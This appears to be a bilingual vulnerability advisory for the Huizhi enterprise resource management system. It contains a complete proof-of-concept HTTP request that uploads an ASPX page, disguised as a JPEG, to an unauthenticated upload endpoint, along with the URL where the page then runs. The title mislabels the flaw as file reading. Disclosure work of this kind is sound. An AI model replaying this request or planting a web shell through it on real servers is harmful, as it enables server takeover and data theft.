


##  汇智企业资源管理系统 存在任意文件读取漏洞(There is arbitrary file reading vulnerability in Huizhi enterprise resource management system)


### Info

The program Enterprise Resource management system developed by Shenzhen Huizhi Software Development Co., Ltd. has a file upload vulnerability, which is a common serious security risk in Web applications, and provides an opportunity for attackers to upload and execute malicious script files. This vulnerability may not only lead to the server being completely taken over, the execution of arbitrary commands, but also may lead to a series of serious consequences such as data leakage, website content tampering. What's more, once the attack is successful, the attacker can also use the vulnerability to further spread the attack, affecting more users and systems. Leak path: / nssys/common/Upload. Aspx? Action=DNPageAjaxPostBack

------

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在文件上传漏洞,文件上传漏洞是Web应用程序中一种常见的严重安全风险，它为攻击者提供了可乘之机，使他们能够上传并执行恶意的脚本文件。这种漏洞不仅可能导致服务器被完全接管，执行任意命令，还可能引发数据泄露、网站内容篡改等一系列严重后果。更为严重的是，一旦攻击成功，攻击者还可以利用该漏洞进一步扩散攻击，影响更多的用户和系统。漏洞路径为：/nssys/common/Upload.aspx?Action=DNPageAjaxPostBack 

### Vuln information


HTTP data

```http
POST /nssys/common/Upload.aspx?Action=DNPageAjaxPostBack HTTP/1.1
Host: 127.0.0.1:8031
Content-Length: 1033
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary= ----WebKitFormBoundaryLkkAXATqVKBHZ8zk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=wxybf2dxluu5sjlb2vxdyrsa
Connection: close

------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUJOTc0NzkxMzQ1D2QWAgIDDxYGHhdJc0JlZm9yZU9wZXJhdGVTYXZlRGF0YWgeBmlzZ3VpZAUBMR4OY2hlY2tmb3Jtc3RhdGUFATBkZHwobq1hNj9MTgjOtrIn/0gbCdhD
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

573D6CFB
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfile_Input"


------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfile_upload"; filename="1"
Content-Type: image/jpeg

<!DOCTYPE html>
<html>
<head>
    <title>ASP.NET Web Forms Example</title>
</head>
<body>
    <%@ Page Language="C#" %>
    <% Response.Write("hello,world"); %>
</body>
</html>
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="upfilename"

2.aspx
------WebKitFormBoundaryLkkAXATqVKBHZ8zk
Content-Disposition: form-data; name="dnpostmethodname"

uploadfile
------WebKitFormBoundaryLkkAXATqVKBHZ8zk--

```



http://127.0.0.1:8031/Upload/2024-07/2.aspx




The file upload vulnerability allows an attacker to upload malicious files to a server, execute code, obtain sensitive data, or even take complete control of the server. The following are the main hazards of file upload vulnerabilities:
Server takeover: An attacker can take control of the server and execute arbitrary commands by uploading malicious script files.
Data breach: Attackers can upload files to servers, access and steal sensitive data
Website tampering: Attackers can upload script files, tamper with website content, and conduct phishing or other fraudulent activities.
Malicious code execution: The server executes scripts uploaded by users, which may cause code execution and further harm system security
File upload vulnerability is a very serious security threat in Web applications, and attackers can use these vulnerabilities to carry out various malicious activities. Therefore, for any Web application with file upload capabilities, strict input validation and file type checks must be carried out to prevent such vulnerabilities from occurring.
